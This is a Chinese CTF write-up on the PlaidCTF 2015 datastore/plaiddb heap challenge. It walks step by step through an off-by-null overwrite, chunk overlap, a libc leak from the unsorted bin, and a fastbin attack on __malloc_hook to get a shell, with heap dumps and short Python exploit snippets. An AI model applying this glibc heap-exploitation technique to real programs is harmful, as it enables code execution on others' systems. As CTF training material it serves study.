 ## step1

首先为了做大chunk的物理相邻，首先先申请一些小块给除了data之外的使用。

```python
for i in range(10):
    put(str(i), 1, str(i))
for i in range(10):
    dele(str(i))
```

堆布局：

```c
Free chunk (fastbins) | PREV_INUSE	#a
Addr: 0x5b89dcd2e6e0
Size: 0x80 (with flag bits: 0x81)
fd: 0x00

Free chunk (unsortedbin) | PREV_INUSE	#b
Addr: 0x5b89dcd2e760
Size: 0x110 (with flag bits: 0x111)
fd: 0x743374fc3b78
bk: 0x743374fc3b78

Allocated chunk	#c
Addr: 0x5b89dcd2e870
Size: 0x90 (with flag bits: 0x90)

Allocated chunk | PREV_INUSE	#d
Addr: 0x5b89dcd2e900
Size: 0x90 (with flag bits: 0x91)
```

## step2

申请多块chunk，data部分填充大小为`0x80->0x110->0x90->0x90`（物理相邻），然后释放0x80和0x110大小的chunk，通过`PUT(b'E'*0x78,0x11,b'a'*0x10) `，触发off-by-null，把0x111大小给改为0x100。

**如果这里不进行off-by-null，剩下的0x100-0x90-0x50=0x20大小的chunk会进行向上合并，导致错误发生**。

```c
Allocated chunk | PREV_INUSE
Addr: 0x5d5ca7a786e0
Size: 0x80 (with flag bits: 0x81)

Free chunk (unsortedbin)
Addr: 0x5d5ca7a78760
Size: 0x100 (with flag bits: 0x100)
fd: 0x78783f3c3b78
bk: 0x78783f3c3b78

Allocated chunk | IS_MMAPED	（这里不是topchunk，进行溢出之后会发生heap显示问题，实际上和上面比较是留出了0x10大小的空间）
Addr: 0x5d5ca7a78860
Size: 0x4242424242424240 (with flag bits: 0x4242424242424242)
    
Allocated chunk	#c
Addr: 0x5b89dcd2e870
Size: 0x90 (with flag bits: 0x90)

Allocated chunk | PREV_INUSE	#d
Addr: 0x5b89dcd2e900
Size: 0x90 (with flag bits: 0x91)
```

## step3

申请B1和B2然后释放B1和C，导致以下的布局。主要是为了产生B2chunk。

```c
Allocated chunk | PREV_INUSE	#a
Addr: 0x63bd2cdad6e0
Size: 0x80 (with flag bits: 0x81)

Allocated chunk | PREV_INUSE	#b1释放
Addr: 0x63bd2cdad760
Size: 0x90 (with flag bits: 0x91)

Allocated chunk | PREV_INUSE	#b2
Addr: 0x63bd2cdad7f0
Size: 0x50 (with flag bits: 0x51)

Free chunk (unsortedbin) | PREV_INUSE	#unused
Addr: 0x63bd2cdad840
Size: 0x20 (with flag bits: 0x21)
fd: 0x7c5e83dc3b78
bk: 0x7c5e83dc3b78

Allocated chunk	 #c
Addr: 0x63bd2cdad870
Size: 0x90 (with flag bits: 0x90)
```

## step4

填满B1然后再次释放之后，B2会被放入unsorted bin中，这时候就可以泄露libc地址。

```c
Allocated chunk | PREV_INUSE	#a
Addr: 0x63bd2cdad6e0
Size: 0x80 (with flag bits: 0x81)

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x63bd2cdad760
Size: 0x1a0 (with flag bits: 0x1a1)
fd: 0x63bd2cdad840
bk: 0x7c5e83dc3b78

Allocated chunk	#d
Addr: 0x63bd2cdad900
Size: 0x90 (with flag bits: 0x90)
```

## step5

修改bin2的大小，进行fastbin attack然后进行malloc_hook攻击，getshell。

## Difficulty

4

## Other

[2015 plaidctf datastore(off by one)-Pwn-看雪-安全社区|安全招聘|kanxue.com](https://bbs.kanxue.com/thread-246966.htm)

[off-null-byte-plaiddb_plaidctf2015 plaiddb-CSDN博客](https://blog.csdn.net/csdn546229768/article/details/122567854?ops_request_misc=%7B%22request%5Fid%22%3A%226a7fdfc67e0a1b8c53b54fa267c89945%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=6a7fdfc67e0a1b8c53b54fa267c89945&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-122567854-null-null.142^v100^pc_search_result_base3&utm_term=plaiddb&spm=1018.2226.3001.4187)

